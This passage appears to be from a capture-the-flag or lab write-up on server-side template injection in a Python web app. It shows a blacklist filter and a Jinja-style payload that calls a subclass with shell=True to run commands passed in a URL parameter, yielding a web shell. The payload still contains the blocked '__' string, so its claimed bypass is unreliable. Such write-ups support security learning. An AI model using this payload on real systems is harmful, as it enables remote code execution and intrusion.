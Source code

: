 We can send the classic payload `{{7*7}}` to see if it can be interpreted.
![](images/Pasted%20image%2020250801174913.png)

It successfully worked, that means we can try to make a reverse shell here.
But remember there are blacklist restrictions
```
blacklist = ["__classes__","request[request.","__","file","write"]  
for bad_string in blacklist:
    if bad_string in message:
        return render_template('home/500.html')
for bad_string in blacklist:
    if bad_string in email:
        return render_template('home/500.html')
for bad_string in blacklist:
    for param in request.args:
        if bad_string in request.args[param]:
            return render_template('home/500.html')
```

So we can try to change our payload 
```
{{ dict.mro()[-1].__subclasses__()[276](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}  
```
Then we can get a web-shell